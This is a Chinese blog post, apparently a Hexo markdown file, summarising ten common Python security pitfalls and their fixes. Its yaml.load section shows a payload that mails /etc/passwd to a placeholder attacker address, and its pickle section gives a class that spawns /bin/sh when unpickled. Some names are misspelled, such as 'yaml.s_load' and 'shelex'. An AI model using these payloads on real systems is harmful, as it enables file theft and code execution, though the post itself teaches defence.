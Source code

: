 title: python 的十个安全问题
date: 2019-04-26 10:06:44
tags:
- Python
- 安全
categories:
- 随手摘录	
photos:	 
- "https://github.com/aldslvda/blog-images/blob/master/python-security.jpg?raw=true"
toc: true
comment: true
---

原文:
https://hackernoon.com/10-common-security-gotchas-in-python-and-how-to-avoid-them-e19fbe265e03


### 1. 输入注入
- SQL 注入:
    容易发生在Python中写raw sql进行查询的场景。 
    解决方式:尽量用ORM，如果要写raw sql, 尽量熟悉[SQL注入cheatsheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)
- 命令注入:
    容易发生在os.popen(), subprocess.Popen()等场合
    使用shelex模块保证引号的转义是正确的

### 2.解析XML
大多发生在解析不被信任的xml(non-trusted xml)
- billion lols
- 外部实体拓展
- 不安全的非标准库

解决方式: 使用较为安全的解析库进行解析，入defusedxml

### 3. 断言语句
不要用断言对用户的权限进行判断

```python
def foo(request, user):
   assert user.is_admin, “user does not have access”
   # secure code...
```

生产环境中会直接跳过assert直接进行用户可能没有权限的操作

解决方式: 断言只用在与其他开发者交互的场景，比如api调用检查和单元测试

### 4.timing attack
攻击者通过对比较指定加密值的时长判断比较器的行为和使用算法。
由于这种攻击很依赖时间的准确度，很少有远程的攻击，更多的是对一些命令行工具进行破解。
[时间攻击的介绍](http://jyx.github.io/blog/2014/02/02/timing-attack-proof-of-concept/)
[一个例子SSH-based timing attack](https://github.com/c0r3dump3d/osueta)

解决方式:
使用Python 3.5 中引入的secrets.compare_digest 进行敏感字符串的比较

### site-packages 污染
Python的包引用非常的灵活，这使得猴子补丁和标准库函数的重写非常容易，但也造成了最大的安全漏洞之一。
出现场景: 攻击者在Pypi中使用与流行库名称相似的库名

解决方式:
眼神要好，不要手抖
使用virtualenv 保持全局site-packages的清洁
下载包时核对签名

### 临时文件攻击
在你使用mktemp()创建临时文件后和处理临时文件之前修改临时文件。

解决方案:
使用tempfile模块和mkstemp()创建临时文件


### 使用yaml.load
在yaml的load过程中会出现安全问题
例如在yaml中加入这一句
```python
!!python/object/apply:os.system ["cat /etc/passwd | mail me@hack.c"]
```


解决方法:
yaml.s_load

### 解析pickel

例:
```python
import cPickle
import subprocess
import base64

class RunBinSh(object):
  def __reduce__(self):
    return (subprocess.Popen, (('/bin/sh',),))

print base64.b64encode(cPickle.dumps(RunBinSh()))
```

以上是将打开shell的程序打包到pickel的代码

解决方案:
千万不要从未知源解析pickel

### 使用系统Python, 不打补丁
使用系统提供的Python版本可能有很多未修复的漏洞

解决方式:
使用新版Python，为系统Python 打补丁

### 不给Python的依赖打补丁
同上


